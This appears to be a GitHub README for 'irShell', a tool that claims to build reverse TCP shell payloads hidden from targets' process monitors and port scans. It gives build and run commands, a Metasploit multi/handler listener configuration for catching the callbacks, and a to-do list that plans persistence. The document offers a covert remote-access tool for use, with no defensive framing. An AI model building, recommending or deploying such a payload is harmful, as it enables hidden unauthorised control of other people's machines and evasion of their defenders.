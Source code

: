 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷
 

<p align="center">
  <img width="560" height="330" src="https://github.com/MBHudson/irShell/blob/main/ports.jpg">
</p>

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors, no PIDs or even open ports are visible. Simple MSFconsole handlers/listeners are then used for callbacks.
### Pictured above is some Nmap and Grep output referencing this payloads used ports still showimg closed or not in use on the machine where the payload has been deployed. Pictured below are two screen captures of the same system's Htop output showing no process/PID
<p align="center">
  <img width="320" height="530" src="https://github.com/MBHudson/irShell/blob/main/Screenshot_20221106-222819_JuiceSSH.jpg/">
  <img width="320" height="530" src="https://github.com/MBHudson/irShell/blob/main/Screenshot_20221106-222822_JuiceSSH.jpg/">
</p>



## Requirments:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && sudo chmod +x irShell
```

## Usage:

```
sudo ./irShell
```




## MSFconsole:

<p align="center">
  <img width="560" height="330" src="https://github.com/MBHudson/irShell/blob/main/Screenshot_20221106_223907.jpg">
</p>




```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in dependency installation 
